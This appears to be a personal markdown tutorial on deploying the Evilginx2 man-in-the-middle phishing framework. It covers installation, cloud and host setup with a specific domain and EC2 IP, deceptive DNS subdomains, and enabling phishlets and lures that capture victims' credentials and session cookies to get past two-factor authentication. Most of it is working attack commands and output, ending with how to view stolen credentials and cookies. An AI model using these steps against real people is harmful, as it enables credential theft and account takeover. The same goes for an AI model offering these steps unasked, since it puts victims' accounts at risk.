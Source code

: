 

```https://github.com/kgretzky/evilginx2```

```NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.```

Commands: https://en.kali.tools/?p=963

### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.

### Installation:

```sudo apt update```

```sudo apt install git```

```sudo apt install git make```

```sudo apt install golang-go```

```sudo apt-get -y install git make```

```git clone https://github.com/kgretzky/evilginx2.git```

```cd evilginx2```

```make```

* If everything was done right you should be able to go ahead and run the program:
            
```sudo ./bin/evilginx -p ./phishlets/```
            
NOTE: Ignore warning - ```[!!!] Failed to start nameserver on port 53```

### Configuring EvilGinx2 on Cloud:

[scp yaml file into EC2 instance] - < ADD HERE >

* Now that evilginx2 is istalled and running it is time to finish setting up the program to exucute the way we want it to (Complete the steps to properly configure evilginx2:):

* Set up the domain you are using (Enter the domain that you are using): 
            
```config domain raymondspizzeria.cf```
            
* Tell evilginx what IP it should be running on (Enter the ip from your ec2 instance):
            
```config ip 44.201.169.181```

***

* Now we are going to create additional DNS Record that will be used when our victim actually clicks to be directed to our domain page (Go back over to freenom and go into DNS Management):
            
Instead of just showing the main domain that we have aquired we are going to create some more realistic DNS records that can help make the full URL more believable for whatever we are choosing to do

Go back to the site you obtained domain from and go into DNS setting to create one
            
            name: login.raymondspizzeria.cf | Type: A | Target or Value: <ec2 ip> 44.201.169.181


### Configuring EvilGinx2 on Host:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

***

### After installation Set-up:

* We need to choose one of the phishlets that we weant to use and configure it in evilginx:
            
```phishlets hostname <pick one, i like onelogin> <enetr whatever dns we just created>```
            
[ex.] ```phishlets hostname onelogin login.raymondspizzeria.cf```
[output] ```[04:57:58] [inf] disabled phishlet 'onelogin'```
            
* Now we need to enable the phishlet 'onelogin' that we just configured:
            
```phishlets enable onelogin```
            
* Next we need to creates out lures:
            
```lures create onelogin```
            
[output] ```[04:31:37] [inf] created lure with ID: 0```
            
* Next we are going to want to get our actual url for out phish:
            
```lures get-url 0```

[ Now open a new wwbbrowser and test out this new link produced by Evilginx and make sure that it works ! ! ! ]

***

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login. - (The default redirect url is YT rickroll)

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.



***

### Tokens and Credentials:

```lures``` -  Shows all current actives lures that are available to be used

```sessions``` - Shows active sessions currently runnings 

```sessions <session_# Here>``` - will display all credentials and cookies captured fromt he session you choose 
